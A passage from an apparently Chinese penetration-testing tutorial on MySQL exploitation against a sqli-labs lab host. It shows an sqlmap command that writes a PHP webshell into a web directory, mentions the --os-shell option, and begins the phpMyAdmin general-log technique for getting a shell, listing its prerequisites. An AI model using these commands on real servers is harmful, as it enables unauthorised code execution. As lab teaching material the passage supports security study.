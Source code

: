 - 使用sqlmap写shell
  `sqlmap -u "http://192.168.43.130/sqli-labs/Less-1/?id=1" --file-write="cyz.php" --file-dest="C:/phpStudy/PHPTutorial/WWW/sqlmap_cyz.php"`
  [![1607685936871](mysql提权/1607685936871.png)](http://cyzcc.vip/2020/12/01/MySQL相关利用及提权/1607685936871.png)
  cyz.php为本地文件
- 使用sqlmap的`--os-shell`写入shell

## phpmyadmin使用日志写入shell

使用账号密码登录后，除了使用上面的SQL语句来写入shell外，还可以使用其他方法来getshell如phpmyadmin中的文件包含漏洞、命令执行漏洞等来getshell

- **使用 `log` 写入 `Shell`**

**满足条件：**

> - 数据库为 `root` 权限
> - `Web` 目录可写
> - 知道 `Web` 的物理绝对路径

首先开启 `mysql` 的日志记录模式

首先查看一下日志的配置：

```
show variables like '%general%';
```

[![1607688011422](mysql提权/1607688011422.png)](http://cyzcc.vip/2020/12/01/MySQL相关利用及提权/1607688011422.png)
